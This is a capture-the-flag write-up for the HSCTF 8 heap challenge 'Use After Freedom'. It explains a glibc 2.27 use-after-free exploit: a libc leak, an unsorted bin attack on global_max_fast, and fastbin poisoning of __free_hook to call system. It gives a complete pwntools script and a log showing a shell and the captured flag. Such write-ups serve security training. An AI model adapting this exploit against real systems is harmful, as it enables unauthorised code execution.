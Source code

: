 ## Use After Freedom

> Points: 493
>
> Solves: 21

### Description:
```
Use after free vulnerabilities are easy to exploit, right?

nc use-after-freedom.hsc.tf 1337
```

### Files:
```
use_after_freedom
libc-2.27.so
```

## Analysis:

Check security
```asm
$ checksec use_after_freedom
[*] '/home/mito/CTF/HSCTF_8/Pwn_Use_After_Freedom/use_after_freedom'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Memory map
```asm
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /home/mito/CTF/HSCTF_8/Pwn_Use_After_Freedom/use_after_freedom
    0x555555755000     0x555555756000 r--p     1000 1000   /home/mito/CTF/HSCTF_8/Pwn_Use_After_Freedom/use_after_freedom
    0x555555756000     0x555555757000 rw-p     1000 2000   /home/mito/CTF/HSCTF_8/Pwn_Use_After_Freedom/use_after_freedom
    0x555555757000     0x555555778000 rw-p    21000 0      [heap]
    0x7ffff79e2000     0x7ffff7bc9000 r-xp   1e7000 0      /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7bc9000     0x7ffff7dc9000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dc9000     0x7ffff7dcd000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcd000     0x7ffff7dcf000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcf000     0x7ffff7dd3000 rw-p     4000 0      
    0x7ffff7dd3000     0x7ffff7dfc000 r-xp    29000 0      /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7fd5000     0x7ffff7fd7000 rw-p     2000 0      
    0x7ffff7ff7000     0x7ffff7ffa000 r--p     3000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 29000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 2a000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
```

## Solution:

The vulnerability of this challenge is UAF.

However, the address malloced from the following function must satisfy the following conditions.
Therefore, the address of __free_hook cannot be allocated by malloc.
> 0x555555757260 < malloc address < 0x600000000000

```c
void * FUN_0010092a(int param_1)

{
  void *pvVar1;
  
  pvVar1 = malloc((long)param_1);
  if ((pvVar1 <= DAT_00302010) && (DAT_00302040 <= pvVar1)) {
    return pvVar1;
  }
  puts("Memory corruption detected!");
                    /* WARNING: Subroutine does not return */
  exit(-1);
}

```

```asm
pwndbg> x/30gx 0x555555756000
0x555555756000:	0x0000000000000000	0x0000555555756008
0x555555756010:	0x0000600000000000	0x0000000000000000
0x555555756020 <stdout>:	0x00007ffff7dce760	0x0000000000000000
0x555555756030 <stdin>:	0x00007ffff7dcda00	0x0000000000000000
0x555555756040:	0x0000555555757260	0x0000000000000000
0x555555756050:	0x0000000000000000	0x0000000000000000
```

We can write a large value to global_max_fast with the following command.

> Obtain((FREE_HOOK - MAIN_ARENA)*2-0x10, "A") #0
>
> Obtain(0x100, "/bin/sh\x00") #1
>
> Lose(0)
>
> Change(0, p64(libc_leak) + p64(global_max_fast - 0x10))
>
> Obtain((FREE_HOOK - MAIN_ARENA)*2-0x10, "C") #2
```asm
0x7ffff7dcf930 <dumped_main_arena_end>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcf940 <global_max_fast>:	0x00007ffff7dcdca0	0x0000000000000000
0x7ffff7dcf950 <root>:	0x0000000000000000	0x0000000000000000
```

We can write the heap address to _free_hook with the following command. And we write to the extended fastbin with the following command.
> Lose(2)
> 
> Change(0, p64(system_addr))
```asm
0x7ffff7dcf8d8 <_IO_stdfile_0_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcf8e8 <__free_hook>:	0x0000555555757250	0x0000000000000000
0x7ffff7dcf8f8 <next_to_use.11807>:	0x0000000000000000	0x0000000000000000

0x555555757250:	0x0000000000000000	0x0000000000003951
0x555555757260:	0x00007ffff7a31550	0x747461206e696220
0x555555757270:	0x00000000216b6361	0x0000000000000000
```

We can write the address of system () to __free_hook with the following command.
> Obtain((FREE_HOOK - MAIN_ARENA)*2-0x10, "D") #3
```asm
0x7ffff7dcf8d8 <_IO_stdfile_0_lock+8>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcf8e8 <__free_hook>:	0x00007ffff7a31550	0x0000000000000000
0x7ffff7dcf8f8 <next_to_use.11807>:	0x0000000000000000	0x0000000000000000
```

## Exploit code:
```python
#!/usr/bin/python3
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './use_after_freedom'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "use-after-freedom.hsc.tf"
  PORT = 1337
  s = remote(HOST, PORT)
  libc = ELF("./libc-2.27.so")
else:
  s = process(BINARY)
  #s = process(BINARY, env={'LD_PRELOAD': './libc-2.27.so'})
  libc = elf.libc
  #libc = ELF("./libc-2.27.so")

def Obtain(size, data):
  s.sendlineafter("> ", "1")
  s.sendlineafter("> ", str(size))
  s.sendlineafter("> ", data)

def Lose(idx):
  s.sendlineafter("> ", "2")
  s.sendlineafter("> ", str(idx))

def Change(idx, data):
  s.sendlineafter("> ", "3")
  s.sendlineafter("> ", str(idx))
  s.sendlineafter("> ", data)

def View(idx):
  s.sendlineafter("> ", "4")
  s.sendlineafter("> ", str(idx))

MAIN_ARENA      = libc.sym.__malloc_hook + 0x10
FREE_HOOK       = libc.sym.__free_hook
GLOBAL_MAX_FAST = 0x3ed940 # 0x7ffff7dcf940 - 0x7ffff79e2000

Obtain((FREE_HOOK - MAIN_ARENA)*2-0x10, "A") #0
Obtain(0x100, "/bin/sh\x00") #1

# libc leak
Lose(0)
View(0)
r = s.recvuntil("\n")[:-1]
libc_leak = u64(r + b"\x00\x00")
libc_base = libc_leak - libc.sym.__malloc_hook - 0x70
global_max_fast = libc_base + GLOBAL_MAX_FAST
system_addr     = libc_base + libc.sym.system
print("libc_leak =", hex(libc_leak))
print("libc_base =", hex(libc_base))

# Unsorted bin attack
Change(0, p64(libc_leak) + p64(global_max_fast - 0x10))
Obtain((FREE_HOOK - MAIN_ARENA)*2-0x10, "C") #2

# fastbin poisoning
Lose(2)
Change(0, p64(system_addr))
Obtain((FREE_HOOK - MAIN_ARENA)*2-0x10, "D") #3

# Start /bin/sh
Lose(1)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/HSCTF_8/Pwn_Use_After_Freedom$ python3 solve.py r
[*] '/home/mito/CTF/HSCTF_8/Pwn_Use_After_Freedom/use_after_freedom'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to use-after-freedom.hsc.tf on port 1337: Done
[*] '/home/mito/CTF/HSCTF_8/Pwn_Use_After_Freedom/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_leak = 0x7f69d1731ca0
libc_base = 0x7f69d1346000
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ cat flag
flag{ok_but_why_is_global_max_fast_even_writeable}
```






